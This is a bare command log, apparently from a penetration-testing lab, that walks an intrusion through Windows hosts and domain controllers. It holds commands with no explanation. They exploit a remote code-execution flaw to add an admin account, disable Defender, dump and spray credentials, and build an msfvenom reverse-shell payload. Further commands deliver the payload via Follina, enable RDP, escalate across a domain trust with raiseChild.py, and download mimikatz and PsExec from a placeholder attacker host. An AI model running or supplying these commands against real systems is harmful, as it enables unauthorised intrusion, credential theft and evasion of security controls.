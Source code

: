 ## Broadcast to Exodus  
nmap -sS -A -n -p1-60000 broadcast  
[https://www.exploit-db.com/exploits/47799](https://www.exploit-db.com/exploits/47799)  
searchsploit 47799  
locate 47799  
cp /usr/share/exploitdb/exploits/windows/remote/47799.txt ./  
nano 47799.txt  
mv 47799.txt freesploit.py  
python3 freesploit.py broadcast hostname  
python3 freesploit.py 10.65.1.40 'net user slayer hunter2 /add'  
python3 freesploit.py 10.65.1.40 'net localgroup Administrators slayer /add'  
python3 smbclient.py slayer@broadcast  
python3 freesploit.py 10.65.1.40 'reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d "1" /f'  
python3 freesploit.py broadcast "powershell Enable-PSRemoting -Force"  
evil-winrm -i broadcast -u slayer  
Get-MpComputerStatus  
Set-MpPreference -DisableRealtimeMonitoring $true  
Get-MpComputerStatus  
python3 secretsdump.py slayer@broadcast  
crackmapexec smb ./kinetic-targets.txt -u ./bcast-users.txt -p ./bcast-pass.txt --no-bruteforce  
python3 smbclient.py kinetic/yarty@exodus  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx LPORT=4222 -f exe > ms_4222.exe  
python3 smbclient.py kinetic/yarty@exodus  
cd Workflow  
put /opt/kinetic/ms_4222.exe  
python3 follina.py -m binary -b '[\\](file:///\\localhost\c$\Workflow\ms_4222.exe)localhost\c$\Workflow\ms_4222.exe' -t docx -H xxx -u xxx  
nmap exodus -Pn -p22,5985,3389  
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f  
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f  
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
 
## FemmeFatale to DCARC  
nmap -sC -Pn femmefatale  
whatweb femmefatale  
curl -si [http://femmefatale/favicon.ico](http://femmefatale/favicon.ico)  
use post/windows/gather/cachedump  
getsystem  
net localgroup Administrators  
net user /domain freya  
net localgroup Administrators /add freya  
netstat -ano  
python3 smbclient.py zero/freya@dczero  
powershell wget -OutFile C:/Users/freya/PowerView1.ps1 [http://xxx/kinetic/powerview1.ps1](http://xxx/kinetic/powerview1.ps1)  
import-module .\powerview1.ps1  
python3 smbclient.py zero/freya@dcarc  
python3 raiseChild.py -w ./freya.ccache zero.arc.corp/freya:mountain  
ntpdate 10.65.20.20  
export KRB5CCNAME=/opt/impacket3/examples/freya.ccache  
python3 smbclient.py Administrator@dcarc -k -no-pass  
powershell iwr -uri [http://xxx/software/ssh.zip](http://xxx/software/ssh.zip) -outfile .\ssh.zip  
powershell iwr -uri [http://xxx/software/PsExec.exe](http://xxx/software/PsExec.exe) -outfile .\psexec.exe  
powershell iwr -uri [http://xxx/software/mimikatz.exe](http://xxx/software/mimikatz.exe) -outfile .\mimikatz.exe
 